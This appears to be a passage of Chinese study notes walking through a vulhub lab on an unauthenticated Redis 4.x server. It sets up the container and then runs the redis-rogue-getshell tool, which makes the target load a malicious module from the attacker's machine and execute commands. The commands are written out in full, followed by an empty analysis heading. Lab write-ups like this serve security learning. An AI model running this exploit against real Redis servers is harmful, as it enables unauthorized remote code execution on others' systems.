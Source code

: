 远程连接

```
redis-cli -h host -p port -a password
```



#### vulhub-redis-4-unacc

##### 启动

```
cd /root/vulhub/redis/4-unacc
docker-compose up -d
docker ps -s
```

![image-20240731110132094](https://image.201068.xyz/assets/Redis/image-20240731110132094.png)

##### 进入虚拟终端

```
docker exec -it 4-unacc_redis_1 /bin/bash
```

##### 攻击机连接

```
/root/redis-6.0.8/src/redis-cli -h 192.168.70.14
```

![image-20240731140108143](https://image.201068.xyz/assets/Redis/image-20240731140108143.png)

##### redis-rogue-getshell工具

```bash
git clone https://github.com/vulhub/redis-rogue-getshell.git

cd /root/tools/redis/redis-rogue-getshell/RedisModulesSDK/
make

cd /root/tools/redis/redis-rogue-getshell
python3 redis-master.py -h
python3 redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "id"
```

![image-20240731112622618](https://image.201068.xyz/assets/Redis/image-20240731112622618.png)

```bash
python3 redis-master.py -r 192.168.70.14 -p 6379 -L 192.168.70.4 -P 8888 -f RedisModulesSDK/exp.so -c "id"
```

![image-20240731112916389](https://image.201068.xyz/assets/Redis/image-20240731112916389.png)

#### **漏洞分析**
